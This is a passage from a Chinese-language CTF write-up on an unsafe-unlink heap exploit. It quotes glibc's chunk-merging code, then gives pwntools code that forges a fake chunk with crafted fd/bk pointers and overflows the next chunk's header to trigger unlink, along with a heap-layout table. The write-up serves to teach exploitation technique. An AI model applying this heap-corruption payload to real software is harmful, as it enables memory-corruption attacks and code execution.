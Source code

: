    ```python
       s.send(payload)
       s.recvuntil("OK\n")
       log.success("Have Edit Heap:"+str(idx))
   ```


2.申请堆&伪造堆

我们首先看合并的部分源码

```c
        if (!prev_inuse(p)) {
            prevsize = prev_size(p);
            size += prevsize;
            p = chunk_at_offset(p, -((long) prevsize));
            unlink(av, p, bck, fwd);
        }
```

首先判断了前一个chunk是否在使用中,我们知道size的最低位为0代表未使用

然后通过prev_size来找到上一个chunk,我们可以通过堆溢出来覆盖掉他

```python
head = 0x0602140
# gdb.attach(s,"break *0x400D29")
alloc(0x100) # idx 1
alloc(0x30) # idx 2
alloc(0x80) # idx 3
fd = head+16-0x18
bk = head+16-0x10
payload1 = p64(0)+p64(0x30)+p64(fd)+p64(bk)
payload1 = payload1.ljust(0x30,'A')
payload1 += p64(0x30) + p64(0x90)	#伪造ptr3的pre_size和size(使其认为前一个chunk是空闲的)
edit(2, len(payload1), payload1)
free(3)
```

这样就可以执行使(head+16)-0x18 。

这里要说明的一点是globals(head + 8 * n)中所存的地址是chunk中data的地址,**即我们伪造的chunk的地址**

在unlink前的堆布局是这样的

|       Ptr2:prev_size       |
| :------------------------: |
|            size            |
| **Fake Chunk:prev_size=0** |
|        Size = 0x30         |
|     fd = head+16-0x18      |
|     bk = head+16-0x10      |
|          "A"*0x10          |
|  **Ptr3:prev_size=0x30**   |
|         size=0x90          |

